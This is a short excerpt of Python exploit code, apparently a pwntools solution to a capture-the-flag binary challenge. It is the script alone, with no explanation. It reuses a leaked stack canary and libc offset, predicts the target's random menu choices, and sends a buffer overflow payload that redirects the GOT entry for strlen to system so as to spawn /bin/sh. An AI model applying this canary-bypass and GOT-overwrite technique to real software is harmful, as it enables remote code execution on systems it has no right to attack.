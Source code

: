 ```python
canary = u64(leak)
leak = ''
for i in range(0,3):
    data = p.recvline()
    data = data[data.find("-> '") + 4:data.rfind("'")]
    leak += data


offset = u64(leak.ljust(8,'\x00'))

print hex(offset)
pause()
p.recvuntil('>> ')
p.sendline('1')


for i in range(0,30):
    p.recvuntil('>> ')
    com = lib.rand() % 3 + 1
    if com == 1:
        p.sendline('3')
    elif com == 2:
        p.sendline('1')
    else:
        p.sendline('2')

p.recvuntil('>>')
p.sendline('n')

p.recvuntil('>>')
p.sendline('2')

p.recvuntil('do.\n')

pay = "A"*(0x30 - 0x10) + p64(canary)
pay += "B"*8 + p64( elf.got['strlen']+0x30 - 8)
pay += p64(0x40125E )



pause()
p.send(pay)

system = offset - 0x5abdd8


p.send("/bin/sh\x00" + p32(system)[:-1])

p.interactive()

```
